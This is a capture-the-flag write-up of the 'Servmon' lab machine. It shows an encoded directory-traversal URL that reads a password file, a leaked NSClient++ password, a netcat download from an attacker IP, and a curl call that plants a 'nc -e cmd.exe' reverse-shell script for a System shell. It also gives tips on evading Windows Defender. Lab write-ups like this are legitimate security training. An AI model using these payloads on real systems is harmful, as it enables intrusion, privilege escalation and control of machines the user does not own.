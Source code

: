 # Servmon

### Reconnaissance

- port 21 FTP Microsoft ftpd  
- port 22 SSH OpenSSH for_Windows_8.0 (protocol 2.0)  
- port 80 HTTP  
- port 135/tcp RPC  
- port 139/tcp NetBIOS  
- port 445/tcp SMB  
- port 5666/tcp Nagios NRPE? https://assets.nagios.com/downloads/nagioscore/docs/nrpe/NRPE.pdf  
- port 6063/tcp X11? https://wiki.wireshark.org/X11  
- port 6699/tcp  
- port 8443/tcp HTTPS domain=localhost  
- port 49664-49670/tcp RPC

**Port 21 FTP** anonymous access allowed, found 2 user directories (Nathan and Nadine) and text files 
mentioning a Passwords.txt on Nathans Desktop

**Port 445 SMB** no access

**Port 80** hosts NVMS-1000, a CMS software for network video surveillance

- potential directory traversal

/index.htm

**Port 8443** hosts NSClient++

/api
/metrics

### Exploitation

searchsploit shows a Directory Traversal vulnerability for NVMS-100 but the script doesn't work

Trying different filter bypass techniques gets us access to Passwords.txt

Directory traversal on port 80 exposing the Passwords.txt file mentioned in the FTP files

`10.10.10.184/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fusers/nathan/desktop/Passwords.txt`

![Directory Traversal](./pictures/dir-traversal.png)

None of the passwords work for the log in panels but one works for Nadine's ssh password, giving us user 
access

NSCLient password `ew2x6SsGTxjRwXOT`

![SSH](./pictures/ssh.png)

### Exploitation

systeminfo is denied to us, any enumeration scripts or binaries get blocked and deleted by Defender, even 
when running in memory

Looking in Program Files we can see the applications corresponding to the services running on port 80 and 
port 8443 (NVMS and NSClient++)

Searching for NSClient on searchsploit shows a privesc vulnerability as the service runs as System, and that
the password for NSClient is found in nsclient.ini

We can check if the version of NSClient is vulnerable, and it is

`cmd /c "C:\Program Files\NSClient++\nscp.exe" --version`

![NSCP version](./pictures/nscp-version.png)

We need to upload a netcat binary and add a script to NSClient that can execute netcat giving us a reverse 
shell

We can upload netcat to the target with `Invoke-WebRequest` to a temp folder that we create in C:\ as we 
have write access

![Write access](./pictures/c-write.png)

`PS C:\temp> Invoke-WebRequest -Uri http://10.10.10.10:80/nc64.exe -Outfile nc.exe`

Using a local ssh tunnel we can access the service on port 8443 on our attacking machine

`ssh -L 8443:127.0.0.1:8443 Nadine@10.10.10.184`

We can then use the API (https://nsclient.org/docs/api/rest/scripts/#add-script) to upload and execute the 
script, using port 443 to avoid the AV dropping our connection

`curl -s -k -u admin -X PUT https://127.0.0.1:8443/api/v1/scripts/ext/scripts/revshell.bat --data-binary "C:\temp\nc.exe 10.10.10.10 443 -e cmd.exe"`

Then we start a listener and execute the script (https://nsclient.org/docs/api/rest/queries/#command-execute)

`curl -s -k -u admin https://127.0.0.1:8443/api/v1/queries/revshell/commands/execute?time=3m`

This gives a System shell on the target

### Lessons Learned

- Wireshark Port Reference is an excellent resource

- Work your way down the list of [PayloadsAllTheThings directory traversal cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal) when checking for directory traversal

- Check executable version with `cmd /c "C:\Program Files\Program\program.exe" --version`

- Look for API docs for services if the dashboard/service is buggy

- The registry can help enumerate services if access to sc.exe is denied  
`reg query HKLM\SYSTEM\CurrentControlSet\Services`

- If well-known scripts/binaries/exploits get detected by Windows Defender/AV, try creating a new directory 
and using basic tools like netcat and manual enumeration
